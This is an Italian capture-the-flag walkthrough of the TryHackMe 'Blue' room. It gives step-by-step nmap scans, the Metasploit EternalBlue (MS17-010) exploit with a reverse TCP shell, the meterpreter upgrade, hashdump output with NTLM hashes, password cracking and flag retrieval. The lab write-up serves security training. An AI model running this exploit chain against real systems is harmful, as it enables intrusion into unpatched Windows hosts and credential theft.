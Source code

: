 
#tryhackmelabs #laboratorio 

https://tryhackme.com/r/room/blue

```
sudo openvpn ~/Downloads/dominion99.ovpn
```

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.85.132 -oG risultatoscan
```

```
sudo nmap -sC -sV -p135,139,445,3389 10.10.85.132 -oN risultatoscan2
```

```
nmap -O -A 10.10.85.132
```

==vulnerabilità con nmap script==
```
nmap -PN --script vuln -p135,139,445,3389 --script http-enum 10.10.85.132 -oN vuln.txt
```

vulnerabile a ms17-010 

```
searchsploit ms17-010
```

Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)          | windows/dos/41891.rb

```
msfconsole
```

```
search ms17-010
```

exploit/windows/smb/ms17_010_eternalblue

```
info 0
```

```
use 0
```

ora settiamo il remote host
```
set RHOST 10.10.85.132
```
poi settiamo il listening host con il nostro IP Attaccante
```
set LHOST 10.8.104.192
```
poi settiamo il listening port
```
set LPORT 445
```
poi settiamo il PAYLOAD (a titolo di apprendimento)

```
set PAYLOAD windows/x64/shell/reverse_tcp
```

```
show options
```

```
run
```

==e siamo dentro la macchina!==

==Importante Ctrl+Z== per passare in background la shell di windows e lavorare da metasploit

==ora prendiamo il modulo post esplotazione== converte a shell da meterpreter shell in metasploit

```
post/multi/manage/shell_to_meterpreter
```

```
set session 1
```

```
run
```

```
sessions
```
per vedere sessione creata nel id2 c'è meterpreter

```
sessions -i 2
```
digito da meterpreter> 
```
ps
```
vede tutti i processi attualmente attivi sulla macchina vittima (PID)

```
migrate 1348
```
per passare ad uno di questi processi
```
hashdump
```
per vedere le password salvate

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

ffb43f0de35be4d9917ac0cc8ad57f8d (hash password di Jon)

https://crackstation.net/

```
Oppure  utilizzare
hash-identifier
john --format=NT ---wordlist=hash.txt
```

```
alqfna22
```
password craccata

a caccia di flag!

```
pwd
```

Flag1? _This flag can be found at the system root._

```
cd /
```

```
cat flag1.txt
```

flag{access_the_machine}

Flag2? _This flag can be found at the location where passwords are stored within Windows._

```
cd windows/system32/config
```

```
cat flag2.txt
```
flag{sam_database_elevated_access}

flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._

```
cd /Users/Jon/Documents
```

```
cat flag3.txt
```
flag{xxxxxxxxxxxxx}


